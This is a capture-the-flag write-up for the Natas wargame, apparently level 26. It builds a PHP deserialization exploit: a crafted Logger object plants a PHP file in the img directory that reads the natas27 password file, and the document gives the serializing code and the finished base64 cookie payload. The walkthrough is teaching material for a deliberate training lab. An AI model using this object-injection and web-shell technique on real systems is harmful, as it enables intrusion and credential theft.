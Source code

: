 ~~~~
<?php

class Logger
{
    private $logFile;
    private $initMsg;
    private $exitMsg;

    function __construct($file)
    {
        $this->initMsg = "Hakked";
        $this->exitMsg = "Natas27 Password: <?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>";
        $this->logFile = "img/totally_not_a_trojan.php";
    }
}

?>
~~~~

This way, we can tap into that unused `Logger` class Morla so nicely left for us up there. We'll just overwrite that `exitMsg` with a call to read `/etc/natas_webpass/natas27`, and throw that "logfile" into a PHP script in the `img` directory... a directory we have access to, and should be able to run it from.

Oh, one quick caveat: it's expecting a serialized, base64_encoded representation of this object, so let's throw a couple more lines in here for ease of use:

~~~~
$obj = new Logger("hax");

file_put_contents("hackityhackhack.txt", urlencode(base64_encode(serialize($obj))));
~~~~

There, that should do it. I chose to use a file rather than stdout because newline characters are a pain.

Run it, and here's our object:

~~~~
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoyODoiaW1nL3RvdGFsbHlfbm90X2FfdHJvamFuLnBocCI7czoxNToiAExvZ2dlcgBpbml0TXNnIjtzOjY6Ikhha2tlZCI7czoxNToiAExvZ2dlcgBleGl0TXNnIjtzOjgwOiJOYXRhczI3IFBhc3N3b3JkOiA8P3BocCBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCcvZXRjL25hdGFzX3dlYnBhc3MvbmF0YXMyNycpOyA%2FPiI7fQ%3D%3D
~~~~

Cool! Throw that in our `drawing` cookie, and let's get 'sploiting.

___
Draw a line:<br>
<form name="input" method="get">
X1<input type="text" name="x1" size=2>
Y1<input type="text" name="y1" size=2>
X2<input type="text" name="x2" size=2>
Y2<input type="text" name="y2" size=2>
<input type="submit" value="DRAW!">
</form> 

